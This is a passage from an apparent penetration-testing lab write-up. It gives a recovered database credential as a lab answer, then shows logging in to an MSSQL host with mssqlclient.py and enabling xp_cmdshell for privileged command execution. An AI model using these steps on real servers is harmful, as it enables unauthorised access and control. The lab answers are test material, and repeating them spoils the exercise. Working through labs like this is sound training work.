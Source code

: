 ![](../imgs/Lab/Lab28/16.png)

We get the credential `netdb:D@ta_bAse_adm1n!`

- **Answer:** D@ta_bAse_adm1n!

![](../imgs/Lab/Lab28/17.png)

## **Submit the contents of the flag.txt file on the Administrator Desktop on the SQL01 host.**

**Privileged Access**

```zsh
mssqlclient.py INLANEFREIGHT/netdb@172.16.7.60
SQL> enable_xp_cmdshell
```

![](../imgs/Lab/Lab28/19.png)
